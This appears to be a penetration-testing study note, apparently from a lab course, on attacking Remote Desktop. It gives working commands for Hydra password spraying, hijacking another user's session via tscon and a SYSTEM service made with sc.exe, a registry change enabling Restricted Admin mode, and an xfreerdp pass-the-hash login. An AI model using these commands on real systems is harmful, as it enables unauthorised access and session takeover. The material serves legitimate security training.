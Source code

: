 # RDP Attack

* a user account will be locked or disabled after a certain number of failed login attempts.
  * In this case, we can perform a specific password guessing technique called \[\[Password Spraying]]
    * Using the Crowbar tool, we can perform a password spraying attack against the RDP service

### Nmap

```bash
nmap -Pn -p3389 192.168.2.143 
```

### Hydra - RDP Password Spraying

```
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```

### Crowbar - RDP Password Spraying

* [crowbar.md](crowbar.md "mention")



### RDP Session Hijacking

* if another user is logged in we can hyjack their session
* To successfully impersonate a user without their password, we need to have `SYSTEM` privileges and use the Microsoft [tscon.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/tscon) binary
  * that enables users to connect to another desktop session

<figure><img src="../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

* we are logged in as the user `juurena` (UserID = 2) who has `Administrator` privileges.
  * Our goal is to hijack the user `lewen` (User ID = 4), who is also logged in via RDP.

```cmd-session
tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```

* If we have local administrator privileges, we can use several methods to obtain SYSTEM privileges, such as \[\[PsExec]] or \[\[Mimikatz]]
* A simple trick is to create a Windows service that, by default, will run as `Local System` and will execute any binary with `SYSTEM` privileges
  * We will use [Microsoft sc.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/sc-create) binary.
  * First, we specify the service name (`sessionhijack`) and the `binpath`, which is the command we want to execute.
  * Once we run the following command, a service named `sessionhijack` will be created.

```cmd-session
C:\htb> query user
```

```cmd-session
 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>juurena               rdp-tcp#13          1  Active          7  8/25/2021 1:23 AM
 lewen                 rdp-tcp#14          2  Active          *  8/25/2021 1:28 AM
```

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```cmd-session
C:\htb> sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"
```

```cmd-session
[SC] CreateService SUCCESS
```

* To run the command, we can start the `sessionhijack` service :

```cmd-session
net start sessionhijack
```

* Once the service is started, a new terminal with the `lewen` user session will appear.
* With this new account, we can attempt to discover what kind of privileges it has on the network
*

    <figure><img src="../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



    * _Note: This method no longer works on Server 2019._

    ### RDP Pass-the-Hash (PtH)

    * If we have plaintext credentials for the target user, it will be no problem to RDP into the system.
      * However, what if we only have the NT hash of the user obtained from a credential dumping attack such as [SAM](https://en.wikipedia.org/wiki/Security\_Account\_Manager) database, and we could not crack the hash to reveal the plaintext password
      * in some instances, we can perform an RDP PtH attack to gain GUI access to the target system using tools like `xfreerdp`.
      * There are a few caveats to this attack
        * `Restricted Admin Mode`, which is disabled by default, should be enabled on the target host; otherwise, we will be prompted with the following error:
          *

              <figure><img src="../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>


          * This can be enabled by adding a new registry key `DisableRestrictedAdmin` (REG\_DWORD) under `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa`.&#x20;
            * It can be done using the following command: - `reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f`
            *

                <figure><img src="../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>


            * Once the registry key is added, we can use `xfreerdp` with the option `/pth` to gain RDP access: - `xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9`
          * If it works, we'll now be logged in via RDP as the target user without knowing their cleartext password.&#x20;



